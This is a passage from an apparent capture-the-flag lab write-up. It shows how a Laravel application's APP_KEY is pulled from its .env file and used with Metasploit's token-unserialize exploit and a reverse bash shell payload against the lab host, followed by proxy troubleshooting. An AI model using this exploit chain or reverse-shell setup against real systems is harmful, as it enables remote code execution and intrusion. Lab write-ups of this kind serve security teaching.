     
    
    root@cronos:/var/www/laravel# cat .env | grep APP_KEY
    APP_KEY=base64:+fUFGL45d1YZYlSTc0Sm71wPzJejQN/K6s9bHHihdYE=
    PUSHER_APP_KEY=
    

Using the Metasploit exploit, I set the key and the other options:

    
    
    msf5 exploit(unix/http/laravel_token_unserialize_exec) > options
    
    Module options (exploit/unix/http/laravel_token_unserialize_exec):
    
       Name       Current Setting                               Required  Description
       ----       ---------------                               --------  -----------
       APP_KEY    +fUFGL45d1YZYlSTc0Sm71wPzJejQN/K6s9bHHihdYE=  no        The base64 encoded APP_KEY string from the .env file
       Proxies                                                  no        A proxy chain of format type:host:port[,type:host:port][...]
       RHOSTS     10.10.10.13                                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
       RPORT      80                                            yes       The target port (TCP)
       SSL        false                                         no        Negotiate SSL/TLS for outgoing connections
       TARGETURI  /                                             yes       Path to target webapp
       VHOST      www.cronos.htb                                no        HTTP server virtual host
    
    
    Payload options (cmd/unix/reverse_bash):
    
       Name   Current Setting  Required  Description
       ----   ---------------  --------  -----------
       LHOST  10.10.14.24      yes       The listen address (an interface may be specified)
       LPORT  443              yes       The listen port
    
    
    Exploit target:
    
       Id  Name
       --  ----
       0   Automatic
    

It’s important to set the `VHOST` option, or the payloads will submit to the
wrong vhost.

When I run this, it says it runs, but no shell:

    
    
    msf5 exploit(unix/http/laravel_token_unserialize_exec) > run
    
    [*] Started reverse TCP handler on 10.10.14.24:443 
    [*] Exploit completed, but no session was created.
    

I added a proxy (I’ll also need to set `ReverseAllowProxy`):

    
    
    msf5 exploit(unix/http/laravel_token_unserialize_exec) > set proxies http:127.0.0.1:8080
    proxies => http:127.0.0.1:8080
    msf5 exploit(unix/http/laravel_token_unserialize_exec) > set ReverseAllowProxy true
    ReverseAllowProxy => true
    
